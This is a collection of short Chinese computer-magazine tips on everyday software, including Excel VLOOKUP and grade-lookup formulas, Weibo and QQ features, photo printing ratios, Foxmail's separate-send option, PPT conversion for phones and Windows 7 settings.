“忙着计业务员的提成呢！”本本答道，“提成跟标准价、实售价都有关，从财务管理软件K3（金蝶）导出的数据只有实售价，标准价要自己录。事关人家的‘钱包’，录错一个都不行的。”说完仍继续对着手上的产品标准价格表，一个一个挑出对应的产品标准价格录入。

小余灵机一动，问：“你这张表，有没有电子版？”

“有啊！”

“那就好办啦！”小余说，“我教你一个办法，不用这样录，用函数，又快又准！”

图片描述：图1 产品标准价格表

### 精确查找匹配单价

首先把“产品标准价格”表准备好（如图1），然后在“提成表”的D2单元格中录入公式：=VLOOKUP(C2,产品标准价格!A:B,2,0)。EXCEL就会自动为“三杯素肥肠”匹配好标准单价“8”（如图2），然后下拉公式，所有产品的标准单价就匹配完毕了（如图3）。

图片描述：图2 自动匹配标准单价
图片描述：图3 所有产品匹配完毕

“这就搞定啦？”本本瞪大眼睛，“不行不行，我得抽查一下，看有没有错。”她随机抽查了几个产品的标准单价，果然正确。

“太神了！”本本感叹，“小余，快给我讲讲，这个函数是什么意思？”

“这个公式表示，在‘产品标准价格’表的A列中，查找等于‘提成表’C2单元格内容的单元格（这里为A2），再从相同行的B列（这里即B2）中返回它的值（这里为8）。”

“哦，有点明白了，但后面那个0是什么意思呢？”本本问。

“呵呵，这个0是精确查找的意思，一般我们都是精确查找用得多，不过有时也会用到模糊查找，比如说计算个税的时候。”

### 模糊查找计算个税

首先我们需要把个税的计算方法（如图4）改装成这样的格式（如图5）。假设你的应税所得为600，税率应该是10%吧？你试一下，在F2录入=VLOOKUP(E2,A:B,2,TRUE)，看是不是返回10%了（如图6）。

因为在查找区域A列中没有600，当找不到600时，它就会找小于600的最大值，也就是500，而500对应的税率正是10%。

### 小知识：掀起VLOOKUP的盖头来

VLOOKUP是最常用的查找函数之一，它有四个参数（英语单词LOOKUP的意思就是“查找”，所以很好记；它的参数也一样，可以通过英文单词的中文意思猜个大概），各参数以英文状态下的逗号隔开。

图片描述：图7 VLOOKUP函数参数

VLOOKUP(lookup_value,table_array,col_index_num,range_lookup)

①lookup_value为需要在table_array第一列中查找的数据，可以为数值、引用或文本。

②table_array为需要在其中查找数据的区域，此区域第一列必须包含要查找的内容，其他列包含需返回的内容，至于返回哪一列的内容，则由第三个参数指定。

图片描述：图8 参数解释

③col_index_num为table_array中待返回的匹配值的列序号，为1时返回table_array第一列中的数值，为2则返回第二列中的数值，以此类推。如果小于1则返回错误值#VALUE!，大于table_array的列数则返回错误值#REF!。

图片描述：图9 参数col_index_num示意

④第四个参数range_lookup为逻辑值，决定函数VLOOKUP是精确查找还是模糊查找。如果为FALSE或0，为精确查找；如果为TRUE或非0值或省略，则为模糊查找，也就是说，如果找不到精确匹配值，则返回小于lookup_value的最大数值，此时，table_array的第一列必须按升序排列，精确查找则不要求排序。

（文/沈慧）

## 美景手机拍 即拍即微博

漫步公园，看到一朵盛开的花；闲暇之余，逗逗家中的宠物狗……如此美景，自然想放到微博与好友共享，可此时拿起相机拍摄，然后拷到电脑再上网，那就太繁琐了。其实只要给手机安装微博客户端，就可以随时拍照，随时广播到微博。

### 腾讯微博篇

得益于QQ超亿用户群，腾讯微博也是很多QQ用户的首选。使用腾讯微博不但可以通过QQ广播微博，在手机上也有多种方法广播微博。登录自己的腾讯微博(t.qq.com)，单击“手机”，这里提供了多种手机微博客户端下载，也可以单击“选择机型下载”按钮，根据手机型号下载相应的微博客户端，然后复制到手机上安装即可。

从手机打开腾讯微博，用自己的账号和密码登录，此时会自动打开微博主页，选择“菜单→写广播”出现对话框，输入广播的文字，再选择“拍照”启用摄像头，拍好照片后，如果照片保存在手机中，可选择“插入图片”加载手机中的照片，最后选择“发送”即可将图文更新到微博。

### 小提示：

某些低端手机可能无法安装微博客户端，不过可以上网，那么可以用手机登录t.3g.qq.com，一样能玩微博。如果手机连上网功能也没有，那么还可以使用短信更新微博，首先将QQ与自己的手机捆绑，短信更新微博（仅支持文字），移动、联通用户发送短信到1066170067，电信用户发送短信到1069070067；彩信更新微博（支持图文），移动用户发送彩信到10661700229，目前仅支持移动用户，将号码保存至手机通讯录中，发送更加方便。

### 新浪微博篇

新浪微博应该是国内微博中的领航者，我的第一个微博就是来自这里。

首先登录自己的新浪微博(t.sina.com.cn)，单击“手机”，根据手机型号下载安装客户端，然后从手机中登录新浪微博，选择“选项→发表微博”，再选择“拍照”可以启用手机摄像头拍摄图片，拍摄后选择“确认”可上传到微博，最后输入文字并选择“广播”即可更新微博。

（文/蒋小春）

## 召集同城好友 相约绿水青山

周末假期，想约一些朋友一起出去玩，可大家都有各自的事情，很难统一行动。想到平时在网上经常看到一些群友约人出去钓鱼、爬山、踏青、下馆子……于是我打算尝试一下通过QQ召集有相同兴趣的好友一起去Happy。

首先要创建一个同城好友群，将QQ中的同城好友集中到一个群中，这样开展活动才会比较方便。不过如果从QQ中一个个寻找同城好友，那就太麻烦了，我们可以使用QQ中心，将同城好友分类到一个组中，再将他们添加到同城好友群。

-   ①登录QQ，单击“我的QQ中心”，切换到“好友”选项，单击“添加分组”创建一个好友分组，单击“地区”会将QQ中所有的好友按地区排列，选择所有同城好友移动到此好友分组中。

小提示：
这里的“地区”是根据好友注册资料中的地区，不排除好友已经不在此地或是随便填写的，以后在组织活动时发现是非本地好友，可及时更正。
选择好友时，注意好友的最近上线时间，如果是长时间不上线，就不要选择了。另外还可以注意最近沟通时间，尽量选择一些和你经常沟通的好友，那样组织活动时，才能保证参与率。

-   ②单击QQ主界面上的“群/讨论组”，选择“创建—创建群”，单击“创建普通群”，选择好友分组，单击“添加”按钮将他们加入同城群中。

小提示：
在创建同城群后，还可以根据活动情况，及时添加一些新成员，将长期不发言或不参加活动的群成员清除出群，将平时发言踊跃、积极参加活动的群成员设置为群管理员。另外还可以发动群成员介绍生活中的朋友进群，从而保证群的活跃性。

## 快速组建同城好友群

在开展活动之前，我们必须对同城好友的喜好有个大致了解，看看大家都喜欢怎样的活动。此时可通过投票的形式，确定几种大多数人喜欢的活动。

打开该群，单击“群社区”按钮打开群社区，单击“更多”选择“群投票”，再单击“发起投票”，然后根据活动项目内容填写主题，选择投票方式（单选或多选）并填写选项，如果选项不够可以单击“增加一个选项”。这样群中的所有好友都会收到投票提醒，他们可以投票和留言建议。在同城好友投票后，可以打开“群投票”查看投票结果。

小提示：
众人拾柴火焰高，多参考大伙儿的意见，及时更新同乐项目，可通过多次投票，确定几个固定的游乐项目，也可以根据群成员身边的资源开展活动。最好还能创建群成员的通讯录，这样组织活动时，联系才能更加方便。在进入群社区后，切换到“通讯录”选项，可以查看所有群成员的名片，单击“查看群名片”，再单击“编辑群名片”可填写个人电话号码等资料。

## 了解民意 确定同乐项目

在同乐项目得到大多数人认可后，我们就可以开展活动了，通过群活动公布同乐项目、时间、地点等信息，并统计参与人数。

-   ①进入群社区后，单击“群活动”并填写活动信息，注意活动地点要准确详细，报名截止时间要稍稍提前一些。在活动通过审核后，群中的好友可以收到“群活动”提示信息。他们报名后，我们可以统计报名的人数。在活动结束后，可以上传活动图片，写下活动感言。

-   ②在发起活动后，大家还可以进行讨论，特别是群内的活跃好友，可以通过多人语音会话一起讨论活动细节。单击“发起多人语音会话”，然后添加好友，最多可以有6个人同时语聊，这样相当于开了个免费的电话会议，方便实惠。

## 发起活动 大家一起乐

小提示：
组织任何活动，安全应该是第一位，如聚餐时开车来的群友不要喝酒，心脏不好的不要爬山。时间最好在9:00～16:30，保证活动在白天进行。初次活动地点最好选在比较热闹的地方，否则会比较冷清，让人有不安全感。
大家最好还要约定见面暗号或标志，以免见面了还不认识。在经过一两次活动后，可以确定几个骨干，这样之后的活动就好开展了，毕竟群组织活动不是一个人可以开展好的，需要大家的帮助，也要大家互相信任才行。

结语：QQ不仅仅是个聊天工具，更是开展各种活动的好帮手，时刻关注好友发起的一些最新活动，在娱乐休闲活动中，结识新朋友，不忘老朋友，说不定还能遇到对你事业家庭有帮助的人。善用软件和网络，我们可以提高工效，改变生活，成为信息时代的弄潮儿。

## 羞涩爱意难出口 漂流小瓶传给他

不管你是初恋、热恋还是暗恋，表达爱意的缠绵话语往往羞于说出口，特别是对于含蓄、内向的人来说更是如此。但有爱不表白，爱情可能会对你说bye bye!把羞涩爱意装进漂流瓶，就能专门漂向他（她）。

以前发送的QQ漂流瓶，也不知道它到底漂向了谁，而现在我们可以让它漂向指定的他或她，但对方并不知道是谁放漂的，这不正适合我们传递悄悄话么？

-   ①打开QQ邮箱，单击“漂流瓶”，可以看到十种类型的漂流瓶，其中的“表白瓶”就是我们所需要的。单击它，从表白对象中选择他或她，写下表白语言后单击“扔出去”。

-   ②对方收到打开后虽然不知道是谁扔出的瓶子，但你的表白，他（她）可是看得清清楚楚！有意思的是，对方可以从好友列表中猜测并勾选是哪位好友扔出的瓶子，只能选择其中的三位。

-   ③猜测结果待会儿就有答案，猜测错误的将显示“猜错”提醒，正确则显示配对成功，这不正是你所希望的结果吗？如果每次对方都能猜到是你，得恭喜你了。

小提示：
你也可以试试另一种方法，打开http://www.ta361.com/zhufu/index.asp网页，选择“我要贴字条”，填写好内容并单击“写下字条”后，你将得到一个字条编号，把上述网址及字条编号通过一定的方式让对方知道，对方打开网页后将看到众多网友发送的字条，在“字条搜索”框中输入编号搜索就可以看到字条内容了。你可以不填真实姓名，也许对方就能隐隐约约猜到你是谁呢。
（文/曹春华）

## 网游神器变身 办公利器

YY这个软件本来是为了方便网游玩家语音沟通而推出的IM软件，既然游戏当中可以拿YY当步话机，那么我们也可以把它打造成“资深”网络会议软件（http://www.yy.com/s/download.html）。

注册后点击“菜单→创建频道”，为频道设定一个名称（注意要选择将频道设定成“秘密的频道”，这样只需要将频道ID告诉其他同事即可）。其他部门同事可以通过软件自带的“查找”功能搜索频道并加入，等人都到齐了就可以开始会议了。如果觉得每次说话都要按F2键麻烦的话，可以在“通话设置”中选择“自由发言”并视情况将语音环境做适当调整。
（文/叶勇）

## 冲印数码照片前别忘了长宽比

过几天是孩子外公的生日，我想冲洗一些宝宝的照片带给远在农村的外公外婆看看。为了让宝宝的照片看起来更美观一些，我特地用光影魔术手为每张照片都设置了一个漂亮相框。但当我拿到冲印好的照片时，却发现大部分照片的相框都被裁剪掉一部分，有的已经大大影响了显示效果。我义愤填膺地向老板投诉，却被老板反驳了一句：“你的照片长宽比与5寸照片不一致，要冲印必须要裁剪。”

后来我才明白，不管我们拍摄的照片分辨率有多大，其长宽比例通常都是4:3，而常见的5寸照片沿用的是传统光学相机的照片规格，其长度通常为5英寸，宽度为3.5英寸，长宽比大约为10:7。

当我们加过相框的照片和冲印店各种尺寸照片的长宽比出现差异的时候，一般有两种解决方案：一是裁剪，二是扩边。对于常见的冲印系统，裁剪比扩边要容易。因此，数码冲印店都会使用自动裁剪的方法来处理不符合长宽比例的照片。其实我们可以预先修剪好照片，以保证照片冲印后的显示效果。

裁剪
以冲印5寸照片为例，通过光影魔术手打开照片，选择“图像→自动裁剪→按5寸/3R照片比例裁剪”，它会自动按比例裁剪掉多余的部分，默认情况下可上下各裁剪掉二分之一的多余部分。如果要裁剪的照片很多，可以用“批处理”命令进行批量裁剪。
对于布局不同的照片，如果自动裁剪的效果不好，还可以选择“图像→裁剪/抠图”打开“裁剪”对话框，设置“按宽高比例裁剪”，并按5寸照片设置宽高比例10:7或7:10，可通过上、中、下、左、中、右裁剪按钮或矩形虚线选择框，按比例裁剪掉多余的部分。

扩边
对于某些设置相框的照片，不管是通过自动裁剪还是手工裁剪都不能得到很好的显示效果，说明该照片需要进行扩边操作。
以一张1024×768像素的照片为例，选择“图像→自动扩边→扩边为5寸/3R照片比例”，在状态栏可以查看扩边后的照片大小为1097×768像素，可见该照片需要在左右方向扩边73像素（1097-1024=73），然后选择“图像→扩边…”打开“画布扩边”对话框，设置右边扩展为36像素，左边扩展为37像素，单击“设置颜色”选择与照片底色比较接近的颜色作为填充颜色，确定后就可以完成手工扩边操作。

小提示：
不同冲印规格其长宽比是不尽相同的，选择“工具→照片冲印尺寸参照表”，可以打开常用照片尺寸参照表。例如，有一张分辨率为3264×2448像素的照片，其长宽比例约为10：8，如果要冲印10寸照片，由于10寸照片的长宽比也是10：8，一般可以直接冲印，而不用担心照片被裁剪掉。如果要冲印5寸的照片，就需要进行相应的裁剪或扩边操作。
总而言之，我们在冲印数码照片之前，应该先根据具体冲印的规格，用光影魔术手这类软件，调整好数码照片的长宽比，以避免出现漂亮的照片被自动裁剪的情况。
（文/姚文连）

## 个性十字绣 自己动手设计

前一段时间，小妹迷上了十字绣，一有空闲时间就拿出来绣。不过最近却不见她动作了。我有些好奇，一问才知道，原来小妹嫌十字绣的那些图案单一，没有个性。现在的年轻人什么都追求有个性，于是我帮她寻找到了这款Stitch Art Easy十字绣设计软件。Stitch Art Easy是一款绿色软件，无需安装，解压缩之后就可以运行，十分方便！工作原理：Stitch Art Easy将图片的每个像素点加以放大，并填充上相近的颜色。（文/无可向人）

下载地址：http://www.99d.com/down/15/489164.html

-   ①打开软件后，首先点击“Open”，导入你喜欢的图片，导入图片后，你可以对其进行一些处理：裁剪形状、处理大小，其他项目无需调整，只要点击“Next”即可。

-   ②点击“Finish”就可以完成十字绣图案的排版了。排版完成后，可以看到，刚才导入的图片被放大，并且被分割成无数小正方形色彩块，十字绣的图纸就算是制作完成了！

-   ③制作完成后，你可以将设计的图纸保存起来，也可以直接打印出来。有了图纸，只需购买相应颜色的线，一幅独一无二、与众不同的十字绣就可以大功告成了！

> 小提示：图片的大小和像素不宜过大，一张分辨率为100×70的图片处理完成后，打印大概需要三张A4纸拼接而成，建议所导入图片的分辨率尽量控制在200×200以下。（文/无可向人）

## 幼儿手工制作 百度经验搜索

最近一段时间，我家小孩从幼儿园回来，总是问一些纸船、纸衣服、纸花的折叠方法，原来他们进入了折纸手工单元的学习。遥想当年，我也曾经会折叠很多东西，可是现在却忘得一干二净了，于是只好求助于网络，直接通过搜索引擎，当然能找到很多网页链接，但常常是鱼龙混杂，筛选起来有点麻烦。如果使用百度经验搜索测试版（http://jingyan.baidu.com/），则分享可以轻松自如。（文/姚文连）

-   ①输入关键词“纸船”，单击“搜索经验”按钮。（文/姚文连）

-   ②打开对应的经验链接，可以查看详细的制作方法。单击右上方的“转帖”按钮，可以将该页内容迅速转帖到人人网、新浪微博、腾讯微博、搜狐微博、网易微博等，以便于和更多的网友分享该经验。（文/姚文连）

-   ③单击右侧的“我要分享经验”按钮，还可以分享我们在工作和生活当中总结出来的各种经验技巧，经验分享成功之后可以获得一定数量的经验积分。（文/姚文连）

> 小提示 经验积分具体分为声望值和财富值两类，声望值将与百度的用户等级挂钩，而财富值则主要用于兑换虚拟或实物奖励，欲知详情可访问百度经验帮助页面（http://www.baidu.com/search/jingyan_help.html）。（文/姚文连）

## 照片名称与拍摄时间齐步走

我准备用我家宝宝的照片，为爱人和我的办公室电脑都制作一个按宝宝成长时期显示照片的屏幕保护程序，当我将照片都复制到同一个文件夹下，右击选择“排序方式-日期”，按拍摄日期进行排序，然后导入到屏保制作软件中，却发现它们已经自动按名称排序。由于不同数码相机的照片命名规则各不相同，要重新调整前后顺序，手工操作有点麻烦。借助ACDSee（下载地址：http://www.jz5u.com/Soft/ImageView/21214.html），就可以按拍摄时间顺序重命名图片文件。（文/姚文连）

新命名图片文件 运行ACDSee Pro，打开存放宝宝照片的文件夹，右击执行“排序方式-修改日期”命令，将照片按修改时间前后排序。然后全选这些照片，选择“工具-批处理-重命名”，对照片进行顺序重命名后，照片的拍摄时间前后和名称顺序就对应起来。再批量导入到屏保制作软件中，就能够自动按拍摄时间排序了。（文/姚文连）

在EXIF信息中，右击图片选择“属性→详细信息”，可以查看照片的各种拍摄参数。在没有用能够修改或删除EXIF信息（如光影魔术手）的图像处理软件进行修改操作前，拍摄时间与修改时间是一致的，而创建时间一般是指从数码相机的存储卡复制到电脑或从一个文件夹复制到另外一个文件夹的时间，访问时间则是最近一次浏览该照片的时间。（文/姚文连）

## 办公用品统计查询省时省心

单位管理办公用品，以前是用纸质登记表签名登记的方式，汇总统计时工作量很大，统计数据还时常不准确。选用“办公用品领用登记”这款小工具后，与纸质登记表配合使用，汇总时只需点点鼠标就能准确搞定，查询统计方便快捷，工作量也大大减轻了。（文/赵晓琴）

-   ①将该软件解压到非系统分区后运行，点击“设置”按钮打开“设置”窗口，在其中配置好部门名称、领取办公用品人员姓名、办公用品名称等信息。（文/赵晓琴）

-   ②领取办公用品时，在纸质登记表签名登记后，再在该软件的“办公用品”登记区中，选择部门、办公用品名称、物品类型、领取人员姓名、数量、备注和领取时间等信息，点击“确定”将该领用记录添加到下方列表和数据库中，做到双管齐下登记，也可过一段时间，将近期纸质登记表信息录入软件中保存。（文/赵晓琴）

-   ③到汇总统计上报办公用品领用情况时，点击“查询全部”按钮，再选择一下汇总条件，即可得到查询结果列表，点击“导出到Excel”按钮，将当前查询得到的记录列表保存为Excel格式文件，排版打印上报，纸质登记表存档。（文/赵晓琴）

> 小提示：领导有时会临时查询各部门办公用品领用情况，这也很方便，在“办公用品登记”区中选择部门、领取日期等，点击“查询”按钮即可在下方显示该部门在该时间段领取办公用品的详细记录，同样可以导出到Excel中排版打印。为防止数据丢失，还可使用软件提供的数据库备份和还原功能，将数据库定期做个备份。办公用品领用登记1.0绿色免费版下载地址：http://www.jz5u.com/soft/apply/Word/72048.html。（文/赵晓琴）

## 忘记解压密码 也能找回下载文件

平时下载的各种应用软件，大部分都是以RAR压缩文件的形式存放，其中有一部分需要密码才能进行解压，而密码一般就是提供该软件下载的网站或论坛地址，如果我们没有将下载页面中的解压密码保存下来，或较长时间后下载文件因病毒感染破坏而无法再解压运行，而这时需要使用这些下载文件，又不想花时间重新搜索下载，就可以利用RAR文件的属性，有时能帮助我们快速找回这些迷失的下载文件。（文/姚文连）

### 一、利用文件注释找回解压密码

前段时间，我下载了一款非常好用的屏幕录像软件，当时直接从下载页面上复制解压密码，解压之后发现录制的效果很好，于是就将该软件备份到自己的软件收藏目录下。今天我想再次使用该软件时，却找不到该软件的解压密码了。（文/姚文连）

经过尝试，我发现这些需要解压密码的软件压缩包一般都会有比较详细的文件注释。右击该压缩文件，执行“属性→注释”命令，打开文件注释对话框，仔细查看注释内容，解压密码一般就在其中。想必是这些提供软件下载的站点，为了给自己的网站做宣传，而刻意为这些RAR压缩文件设置了一个共同的解压密码。（文/姚文连）

> 小提示：如果下载文件因病毒感染而无法正确打开，常常需要重新下载。右击已经被破坏的压缩文件，执行“属性→注释”命令，可以查看该软件的来源网站地址和简介。如果确切记得软件名称（不是压缩文件名），则可以登录对应的网站重新进行下载。（文/姚文连）

### 二、不登录网站重新下载

如果没有重装过操作系统和下载软件，还可以根据文件的下载时间查看对应的下载记录，重新下载该软件，而不需要再登录对应的下载网站进行搜索下载。以360安全浏览器的文件下载功能为例。（文/姚文连）

打开360安全浏览器，执行“工具→安全下载”命令打开“安全下载”对话框，找到指定的文件，单击右侧的“更多”按钮，执行“属性”命令，可以查看文件的详细下载地址，执行“重新下载”命令，则可以快速重新下载该文件。（文/姚文连）

## 别人的成绩你别看

学校每学年要举行十多次考试，每次考试之后，学生最关心的就是自己的考试成绩以及在班上的排名情况，可学校又明确规定老师不准在班上公开学生的成绩及排名，这样学生只能到班主任那儿查询自己的成绩了，可是，作为班主任，怎样才能让学生在查询成绩时，只能看到自己的成绩而看不到别人的呢？

### 一、建立显示成绩的工作表

1.  建立工作表。运行Excel 2007，按常规制作一个学生成绩汇总工作表，在工作表中的A2到M2区域分别输入序号、姓名和语文、数学、英语等各科以及总分、排名字段，然后输入基本信息并设置文字和表格格式。

2.  输入公式。选中L3单元格，在编辑栏输入“=SUM(C3:K3)”（不含引号，下同），按Enter键确定（见图1）。选中M3单元格，在编辑栏输入“=RANK(L3,$L$3:$L$56,0)”（此例中全班人数为54人），按Enter键确定。拖动鼠标选中L3:M3单元格区域，将鼠标指针移到单元格区域右下角的填充柄上，按住鼠标左键向下拖动到M56单元格，完成对其他单元格的公式计算。

| 序号 | 姓名   | 语文 | 数学 | 英语 | 物理 | 化学 | 生物 | 政治 | 历史 | 地理 | 总分 | 排名 |
| ---- | ------ | ---- | ---- | ---- | ---- | ---- | ---- | ---- | ---- | ---- | ---- | ---- |
| 1    | 班效强 | 116  | 130  | 102  | 83   | 81   | 53   | 82   | 84   | 83   |      |      |
| 2    | 于露露 | 111  | 114  | 86   | 50   | 63   | 52   | 65   | 57   | 75   |      |      |
| 3    | 孙慧珊 | 120  | 87   | 75   | 55   | 73   | 47   | 83   | 74   | 74   |      |      |
| 4    | 陈成   | 108  | 129  | 87   | 68   | 67   | 42   | 80   | 53   | 64   |      |      |
| 5    | 周远浪 | 101  | 55   | 95   | 29   | 37   | 28   | 67   | 41   | 68   |      |      |
| 6    | 袁梦   | 103  | 105  | 77   | 59   | 82   | 58   | 67   | 67   | 72   |      |      |
| 7    | 袁兴春 | 104  | 132  | 73   | 88   | 81   | 63   | 70   | 73   | 75   |      |      |
| 8    | 吕言周 | 101  | 80   | 63   | 50   | 66   | 51   | 59   | 62   | 82   |      |      |

3.  设定名称。单击“公式”选项卡，在“定义的名称”组单击“名称管理器”（见图2），在打开的“名称管理器”对话框中单击“新建”打开“新建名称”对话框，在“名称”框中输入“name”，在“引用位置”框中输入“=OFFSET(Sheet1!$B$2,1,0,COUNTA(Sheet1!$B:$B)-1,1)”，单击“确定”返回名称管理器（见图3）。再次单击“新建”建立一个名称为“grade”，引用位置为“=OFFSET(Sheet1!$C$2,MATCH(成绩查询!$D$1,name,0),0,1,11)”，然后单击“关闭”按钮退出。

### 二、利用“名称”实现成绩的查询

1.  修改工作表名称。在窗口底部的工作表标签栏上单击“Sheet2”以激活此工作表，然后右击此标签，在弹出的快捷菜单中单击“重命名”，输入新的名称“成绩查询”，在工作表中任意单元格单击确定。

2.  输入必要的文字。拖动鼠标选中A1:C1单元格区域，单击“开始”选项卡，在“单元格”组单击“格式”，再单击“设置单元格格式”，单击“对齐”选项卡，在“水平对齐”下拉框中选择“居中”，在“文本控制”下勾选“合并单元格”，单击“确定”退出（见图4）。然后选中A1单元格，在编辑栏输入“请输入你的姓名：”，按Enter键确认。在A2到K2单元格中分别输入语文、数学、英语、物理、化学、生物、政治、历史、地理、总分和排名等，并设置文字和单元格格式。

3.  设置数据有效性。选中D1单元格，在“数据”选项卡的“数据工具”组中单击“数据有效性”，在打开的“数据有效性”对话框中单击“设置”选项卡，在“允许”下拉菜单中选择“序列”，在“来源”输入框中输入“=name”，单击“确定”（见图5）。

4.  插入公式。拖动鼠标选中A3:K3单元格区域，然后在编辑栏输入“=IFERROR(grade,0)”并按Ctrl+Shift+Enter组合键确定。

5.  数据查询。此时单击D1单元格，在单元格右侧就会出现一个下拉箭头，单击此箭头，在弹出的下拉列表中找到并单击要查询成绩的学生姓名，即可在相应的单元格中显示该学生的成绩信息（见图6）。

请输入你的姓名： 陈成
| 语文 | 数学 | 英语 | 物理 | 化学 | 生物 | 政治 | 历史 | 地理 | 总分 | 排名 |
| ---- | ---- | ---- | ---- | ---- | ---- | ---- | ---- | ---- | ---- | ---- |
| 108  | 129  | 67   | 42   | 80   | 53   | 64   | 678  | 8    |      |      |
| ...  |      |      |      |      |      |      |      |      |      |      |
| ...  |      |      |      |      |      |      |      |      |      |      |
| ...  |      |      |      |      |      |      |      |      |      |      |
| 王连雨 |      |      |      |      |      |      |      |      |      |      |

6.  对源数据进行隐藏。在工作表标签栏上右击“Sheet1”，在弹出的快捷菜单中单击“隐藏”。
    至此，工作表的设置基本完成了，单击窗口上方“快速工具栏”上的“保存”按钮对文件进行保存后，就可以在D1单元格输入学生姓名对学生的成绩进行查询了。
    下次考试后，班主任只需要复制一下这个工作簿，然后在“Sheet1”中重新录入学生的各科成绩数据，同样可以实现“别人的成绩你别看”的功能。怎么样，有点儿“神奇”吧？
    （文/刘玉岗）

## 给客户群发邮件 您真的会么

接到紧急任务，要给几十家大客户发邀请函。因为快下班了，不想一封封地发，于是想到了群发，决定以20家客户为一组发送。
正当我在“收件人”栏粘贴好20个邮箱地址，准备点击“发送”时，突听身后一声怒喝：“住手！你在干什么？”
迎上经理杀气腾腾的目光，我胆怯地说：“我，我在给客户发邮件。”
“你还知道是客户啊！客户就是上帝，知道不？如果客户收到邮件后，看到自己的邮箱地址和一大群人的邮箱地址同时出现在收件人栏，会有什么想法？”
“这……”我意识到自己的错误，忙说：“那我用暗送吧。”
“暗送？”经理更大声了，“你当客户都是电脑盲啊？当他们看到自己的邮箱地址出现在‘暗送’栏，你以为他们不知道状况？”
我被骂得简直无地自容，幸好，平素在家养成“父母教，须敬听”的好品德，到了单位也很自然地做到“领导责，须顺承”。我马上毕恭毕敬地请教经理应该怎么处理。
经理的脸色缓和了下来，笑着说：“年轻人，要跟上时代！用最新版的Foxmail吧。”
最新版Foxmail？我如获至宝，立即上网搜索。果然，在Foxmail的官网上，找到了解决问题的方法。原来，Foxmail 6.5 Beta3早已为我们准备好了“独立发送”的法宝，正好可以解决我这个难题。于是我立即开始动手操作。
打开Foxmail，点击“撰写”按钮，打开“写邮件”窗口，在“收件人”栏中，录入多个收件人的邮箱地址，各地地址以英文状态下的分号“;”隔开。然后是最关键的一步，看好了：单击“发送”按钮旁边的下拉箭头，选择“独立发送”，大功告成！
以此种方式发送邮件，对我们来说是群发，但收件人收到邮件时，在“收件人”栏显示的只有收件人自己的邮箱地址，这封邮件看起来就像是单独发送给他一个人一样。
群发的最高境界，就是你群发了，对方还以为你是单独发给他的。你学会了吗？可不要像我之前那样，弄个蹩脚的“群发”和“暗送”，把大客户得罪了呀！
小提示：
使用Foxmail的“独立发送”功能，不仅对我们来说是群发，其实对Foxmail来说也是逐封发的。不信，下次你可以留意一下，当你的邮件足够大时（此时，Foxmail发邮件也会发得足够慢），就会发现Foxmail在发送邮件的时候，确确实实是一封一封发送出去的。另外，QQ邮箱也具有“分别发送”功能，同样可以解决这个问题。
（文/沈慧）

课上PPT课下看 山寨手机也玩转

## 一、将PPT转成JPG的图片

格式工厂下载地址：http://share.lask.sina.com.cn/f/5020758.html

打开PPT，先将PPT的页面设置为宽32，高24，然后依次点击“文件→另存为”，在保存类型里选“JPEG文件交换格式”，点“保存”并在弹出的对话框中选“每张幻灯片”。

打开格式工厂，选择转成JPG，添加文件，然后点击“输出配置”，将大小限制为320×240，确定后，将转好的幻灯片图片存到手机里就行了。

## 二、将PPT转成3GP视频

屏幕录像专家下载地址：http://share.lask.sina.com.cn/f/8546615.html?from=like

将PPT转成视频的功能PowerPoint2010有，但不是每台电脑都有PowerPoint2010，而且视频播放快慢无法控制，所以还是自己录制的好。

打开屏幕录像专家和PPT，选择录制成AVI（这个很重要），其他的简单设置就是了，按F2开始录制，这时开始放映幻灯片，鼠标往下点击就是了，快慢由自己控制（这点也很重要），录制完成还是按F2。

打开格式工厂，选择转成3GP（之所以选择3GP是因为大多数手机都支持3GP），选中文件后，进行“输出配置”设置，比特率，每秒帧数设置为最大（这样才能看清楚文字），屏幕大小设置为240×320，最后把视频存进手机里。

## 三、将PPT转成Word

PPT文字提取工具pptConverttodoc下载地址：http://share.lask.sina.com.cn/f/5678156.html

准确地说是TXT文本，大多数手机都是支持TXT的，对于文字很多的PPT来说，这个方法很实用。

将PPT和pptConverttodoc程序放在同一个目录下，将PPT拖进去，点“开始”，最后把Word中的文字复制到新建的记事本中，再放到手机上看就行了。

### 我的经验和体会

- 1. 屏幕在208×320以下的建议使用方法三，不建议使用方法一和二，除非PPT中文字较大。
- 2. 关于手机屏幕大小可以看说明书，或者下载一些可能适合屏幕大小的图片放到手机上，能全屏显示的即为手机屏幕大小。
- 3. 如果录制的视频放在手机上不显示，可能是因为手机不支持该编码方案，可选择转成MP4格式，若手机不支持MP4，建议下载其他版本格式工厂，其3GP格式可以改成MPEG4。
- 4. 转换后的图片大小和限制的不一样，通常是PPT的页面设置与格式工厂的图片设置不一样，或格式工厂的版本问题，尤其要注意区分宽、高的设置，如240×320和320×240在很多情况下是不一样的。

消息来时音乐声别忽大忽小

Windows 7有一个怪毛病：用任意一款音乐播放器听歌聊QQ的时候，QQ消息一来，音乐的声音就会突然减小，过一会儿又恢复正常，QQ消息多的同学就惨了，声音忽大忽小的。很多人以为是系统或机器出了问题，忙活了半天却没有结果。其实，这本来是Windows 7的一项人性化设计，意在实时提醒你，不至于忽略外来信息。不过各人需求不一，可能这反而给一些朋友带来烦恼。如果不需要这项功能，你可以将系统的默认设置更改一下。

在开始搜索框中键入“声音”，回车打开声音控制选项，在“声音”对话框中切换至“通信”选项卡，将“当Windows检测到通信活动时”设置为“不执行任何操作”，按“确定”保存即可（系统默认的设置是“将其他声音的音量减少80%”，你可以根据自己的需要进行调整）。

（文/无可尚人）

碎片整理不要胡子眉毛一把抓

电脑用时太长经常会出现速度下降的情况，其中碎片的大量产生是一个重要的因素，但提起系统自带的碎片整理程序，许多人还是心有余悸，因为不管三七二十一，它会自作主张对整个逻辑驱动器实施碎片整理。而影片下载狂们顶多只是希望对下载文件夹进行整理，WinContig（http://wincontig.mdtzone.it/en/）恰好可以满足这样的需求。

运行WinContig.exe，选择添加按钮（Add），添加预整理的文件夹或文件，选择分析按钮（Analyze），然后点击碎片整理（Defragment），以后再也不需要漫长的等待了。

（文/段晓东）

带个U盘安装维护系统

常帮朋友们安装系统和维护电脑，过去得靠一堆光盘才能顺利成功，虽然也可用启动U盘来搞定，但制作一个启动U盘很费时费力，要用的工具软件较多，而且制作的启动U盘功能单一，更重要的是还不支持大容量U盘。而现在使用免费的“电脑店U盘装系统专用工具”来制作，一切就能搞定。

运行“电脑店U盘装系统专用工具 V1.0（网络版）”（下载地址：http://www.crsky.com/soft/26434.html），将U盘插入，选择该U盘，点选“USB-ZIP”模式，点击“一键制作USB启动盘”并确认。

